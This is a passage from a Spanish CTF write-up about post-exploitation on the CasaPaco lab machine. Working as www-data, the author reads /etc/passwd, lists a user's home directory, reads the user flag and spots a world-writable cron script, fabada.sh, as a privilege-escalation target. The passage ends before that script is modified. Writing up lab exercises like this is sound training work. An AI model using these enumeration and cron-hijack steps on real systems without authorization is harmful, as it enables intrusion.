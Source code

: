 
<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Post" style="text-align:center;">Post Explotación</h1>
</div>
<br>


<h2 id="linEnum">Enumeración de Máquina Linux y Aplicando Fuerza Bruta a Usuario pacogerente</h2>

Veamos qué usuarios existen en la máquina víctima:
```bash
www-data@Thehackerslabs-CasaPaco:/var/www/html$ cat /etc/passwd | grep 'bash'
root:x:0:0:root:/root:/bin/bash
pacogerente:x:1001:1001::/home/pacogerente:/bin/bash
```
Tenemos un usuario llamado **pacogerente**.

Podemos ver el contenido de su directorio en la ruta `/home`:
```bash
www-data@Thehackerslabs-CasaPaco:/var/www/html$ ls -la /home
total 12
drwxr-xr-x  3 root        root        4096 Jan 14  2025 .
drwxr-xr-x 18 root        root        4096 Jan 13  2025 ..
drwxr-xr-x  3 pacogerente pacogerente 4096 Aug  7 00:29 pacogerente
```

Movámonos ahí y veamos su contenido:
```bash
www-data@Thehackerslabs-CasaPaco:/var/www/html$ cd /home/pacogerente/
www-data@Thehackerslabs-CasaPaco:/home/pacogerente$ ls -la
total 52
drwxr-xr-x 3 pacogerente pacogerente  4096 Aug  7 00:36 .
drwxr-xr-x 3 root        root         4096 Jan 14  2025 ..
lrwxrwxrwx 1 root        root            9 Jan 14  2025 .bash_history -> /dev/null
-rw-r--r-- 1 pacogerente pacogerente   220 Mar 29  2024 .bash_logout
-rw-r--r-- 1 pacogerente pacogerente  3526 Mar 29  2024 .bashrc
drwxr-xr-x 3 pacogerente pacogerente  4096 Jan 13  2025 .local
-rw-r--r-- 1 pacogerente pacogerente   807 Mar 29  2024 .profile
-rwxrw-rw- 1 pacogerente pacogerente   110 Ene  4 00:33 fabada.sh
-rw-r--r-- 1 root        root        17579 Aug  7 00:36 log.txt
-rw-r--r-- 1 pacogerente pacogerente    33 Jan 14  2025 user.txt
```

Muy bien, podemos ver la flag del usuario:
```bash
www-data@Thehackerslabs-CasaPaco:/home/pacogerente$ cat user.txt
...
```

Y ahí vemos un script que podemos leer y modificar, pero primero veamos su contenido:
```bash
www-data@Thehackerslabs-CasaPaco:/home/pacogerente$ cat fabada.sh 
#!/bin/bash

# Generar un log de actividad
echo "Ejecutado por cron el: $(date)" >> /home/pacogerente/log.txt
```
Entiendo que este script sirve como una **tarea CRON** que ejecuta el comando **date**, que nos da la fecha actual, y el resultado lo mete en un archivo de texto llamado **log.txt**.
